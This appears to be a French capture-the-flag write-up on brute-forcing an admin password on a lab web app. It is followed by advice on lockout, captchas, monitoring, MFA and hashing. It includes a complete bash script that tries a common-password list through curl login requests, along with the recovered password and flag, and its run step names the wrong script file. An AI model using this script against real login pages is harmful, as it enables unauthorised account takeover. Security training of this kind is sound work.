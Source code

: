 
---

# Attaque par force brute pour découvrir un mot de passe

## Description de la faille

Une attaque par force brute a été utilisée pour découvrir le mot de passe de l'utilisateur `admin` en essayant les mots de passe les plus couramment utilisés. Une liste des 200 mots de passe les plus courants a été utilisée pour tenter de se connecter automatiquement jusqu'à ce que le mot de passe correct soit trouvé.

## Étapes pour découvrir la faille

1. **Obtenir la liste des mots de passe les plus courants** :
   - Téléchargez la liste des 200 mots de passe les plus utilisés à partir de [ce lien](https://s1.nordcdn.com/nord/misc/0.78.0/nordpass/top-200-2023/200-most-common-passwords-fr.pdf).
   - Sauvegardez ces mots de passe dans un fichier texte nommé `pswdlist.txt`.

   ```sh
   touch pswdlist.txt
   # Ajoutez manuellement les 200 mots de passe dans ce fichier
   ```

2. **Créer un script bash pour automatiser la tentative de connexion** :
   - Créez un script bash nommé `bruteforce.sh` avec le contenu suivant :

   ```bash
   #!/bin/bash

   pswds=($(cat pswdlist.txt))
   length=${#pswds[@]}
   current=0
   ip_address="192.168.1.10" # Remplace par ip-addr

   for pswd in "${pswds[@]}"
   do
       response=$(curl -s "http://$ip_address/?page=signin&username=admin&password=$pswd&Login=Login" | grep "flag")

       if [ ! -z "$response" ]; then
           echo "Password is : $pswd"
           echo $response
           break
       fi

       current=$((current+1))
       echo -ne "Current progress : $(((current * 100) / length))%\r"
   done
   ```

3. **Exécuter le script** :
   - Rendez le script exécutable et exécutez-le :

   ```sh
   chmod +x script.sh
   ./script.sh
   ```

4. **Trouver le mot de passe** :
   - Le script tente de se connecter en utilisant chaque mot de passe de la liste jusqu'à trouver le mot de passe correct. Lorsque le mot de passe est trouvé, le script affiche le mot de passe et le flag associé.
   - Dans cet exemple, le mot de passe trouvé est `shadow`.

   ```
   Password is : shadow
   flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
   ```

## Flag

```
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## Comment remédier à cette faille

Pour remédier à cette faille de sécurité, il est crucial de mettre en place plusieurs mesures de protection contre les attaques par force brute :

1. **Limiter les tentatives de connexion** :
   - Implémentez une politique de verrouillage de compte après un certain nombre de tentatives de connexion échouées. Par exemple, après 5 tentatives échouées, verrouillez le compte pendant un certain temps ou jusqu'à ce qu'une action de l'utilisateur soit nécessaire (comme réinitialiser le mot de passe).

2. **Utiliser des captchas** :
   - Ajoutez des captchas à la page de connexion pour empêcher les scripts automatisés de tenter des connexions. Cela ajoutera une couche de sécurité supplémentaire en vérifiant que l'utilisateur est humain.

3. **Surveiller les tentatives de connexion** :
   - Mettez en place une surveillance et des alertes pour détecter les tentatives de connexion suspectes. Si de nombreuses tentatives de connexion échouées sont détectées, il peut s'agir d'une attaque par force brute en cours.

4. **Utiliser des mots de passe forts et uniques** :
   - Encouragez les utilisateurs à utiliser des mots de passe forts et uniques. Implémentez des règles de complexité des mots de passe (longueur minimale, utilisation de caractères spéciaux, etc.).

5. **Authentification multifactorielle (MFA)** :
   - Ajoutez une authentification multifactorielle (MFA) pour augmenter la sécurité des comptes. Même si un attaquant obtient le mot de passe, il aura besoin d'un deuxième facteur (comme un code envoyé sur le téléphone de l'utilisateur) pour se connecter.

6. **Hashing sécurisé des mots de passe** :
   - Assurez-vous que les mots de passe sont stockés de manière sécurisée en utilisant des algorithmes de hachage robustes (comme bcrypt, scrypt ou Argon2) avec un salt unique pour chaque utilisateur.

## Conclusion

Cette faille montre l'importance de sécuriser les pages de connexion contre les attaques par force brute. En mettant en œuvre les mesures de sécurité mentionnées ci-dessus, la sécurité des comptes utilisateurs peut être significativement améliorée, rendant les attaques par force brute beaucoup plus difficiles et moins efficaces.

---

